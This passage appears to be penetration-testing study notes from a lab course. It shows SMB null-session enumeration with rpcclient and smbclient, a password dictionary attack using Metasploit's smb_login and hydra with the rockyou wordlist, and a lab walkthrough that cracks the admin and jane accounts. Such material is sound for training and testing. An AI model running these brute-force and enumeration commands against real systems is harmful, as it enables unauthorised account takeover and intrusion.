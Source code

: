 ```bash
$ rpcclient -U "" -N $target
rpcclient $> enumdomgroups
group:[Maintainer] rid:[0x3ee]
group:[Reserved] rid:[0x3ef]
rpcclient $> enumdomusers 
user:[john] rid:[0x3e8]
user:[elie] rid:[0x3ea]
user:[aisha] rid:[0x3ec]
user:[shawn] rid:[0x3e9]
user:[emma] rid:[0x3eb]
user:[admin] rid:[0x3ed]
# Nice, we have a NULL session. Let's connect to the share 
# via smbclient.
$ smbclient -L -N //$target/public
smb: \> dir 
  secret                              D        0  Tue Nov 27 13:36:13 2018
smb: \> cd secret
smb: \secret\> dir
  flag                                N       33  Tue Nov 27 13:36:13 2018
smb: \secret\> get flag
# This will download the flag. Outside smbclient, we can open it
# using the cat command.
```

<a id="5.8"></a>
## SMB Dictionary Attack

```bash
msf5 > use auxiliary/scanner/smb/smb-login
msf5 auxiliary > set RHOSTS [TARGET]
msf5 auxiliary > set pass_file /path/to/wordlists
msf5 auxiliary > set smbuser [USER]
$ gzip -d /usr/share/wordlists/rockyou.txt.gz # RockYou on Kali.
$ hydra -l [USER] -P /usr/share/wordlists/rockyou.txt [TARGET] [PROTOCOL] # In this case it'd be smb.
msf5 > use auxiliary/scanner/smb/pipe-auditor
msf5 auxiliary > set smbuser [USER]
msf5 auxiliary > set smbpass [PASSWORD]
msf5 auxiliary > set RHOSTS [TARGET]
$ enum4linux -r -U [USER] -p [PASSWORD] [TARGET]
```

<a id="5.8.1"></a>
### SMB Dictionary Attack Lab

Objective: get da root flag! Crack into Jane's and Admin's accounts, although no password
was provided...

```bash
$ msfconsole
msf5 > use auxiliary/scanner/smb/smb_login
msf5 auxiliary > set smbuser Jane
msf5 auxiliary > set rhosts $target
msf5 auxiliary > set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
msf5 auxiliary > run
# We get a hit on .\jane:safepass. So we'll use that later.
$ gzip -d /usr/share/wordlists/rockyou.txt.gz
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt $target smb
[445][smb] host: 192.122.87.3   login: admin   password: p4ssw0rd
# Sweet, we got a hit! Let's try to enumerate shares with our new creds.
$ smbclient -L -U admin $target
        Sharename       Type      Comment
        ---------       ----      -------
        shawn           Disk      
```